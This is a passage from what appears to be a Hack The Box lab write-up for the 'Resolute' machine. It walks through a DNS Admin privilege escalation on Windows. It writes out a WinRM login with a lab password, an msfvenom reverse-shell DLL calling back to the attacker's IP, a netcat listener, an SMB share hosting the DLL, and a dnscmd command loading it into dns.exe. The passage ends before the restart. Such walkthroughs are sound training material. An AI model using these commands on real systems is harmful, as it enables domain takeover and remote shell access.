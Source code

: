 Using our newly attained credentials, we'll log in as ryan using `evil-winrm`. 

```bash
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

On ryan’s desktop there is a note that indicates that all changes are reverted within a minute. we’ll keep that in mind as we continue.

![](/assets/img/posts/htb/04-2020-3/note.png)

Next, we want to see if ryan has any unique privileges. We'll use `net user` and can see that ryan is in the Contractors group. This indicates to us that the user may have administrator rights. Because _Resolute_ also has DNS enabled, we can assume that ryan is also a DNS Admin or has write privileges to the DNS server object.

```powershell
> net user ryan /domain
Global Group memberships     *Domain Users         *Contractors
```

[This article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) has a great write-up on how to abuse a DNS Admin account to escalate privileges. For brevity, we will inject a poisoned DLL into the DNS executable, which will create a SYSTEM-level shell when the DNS process is restarted.

Using msfvenom, we will create the malicious DLL payload.

```bash
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.234 LPORT=4444 -f dll > privesc.dll
```

We'll set up a listener as well, in preparation for the reverse shell.

```bash
$ nc -lvnp 4444
```

Now we need to get our payload onto the machine. We'll choose to host the payload on my machine using `smbserver.py` from [impacket](https://github.com/SecureAuthCorp/impacket).

```bash
$ sudo python smbserver.py share ./
```

On the _Resolute_ box, we'll run the command to retrieve our poisoned DLL and inject it into `dns.exe`.

```powershell
> dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.234\share\privesc.dll
```

Finally, we'll restart DNS. This needs to be done relatively quickly to avoid changes being reverted.
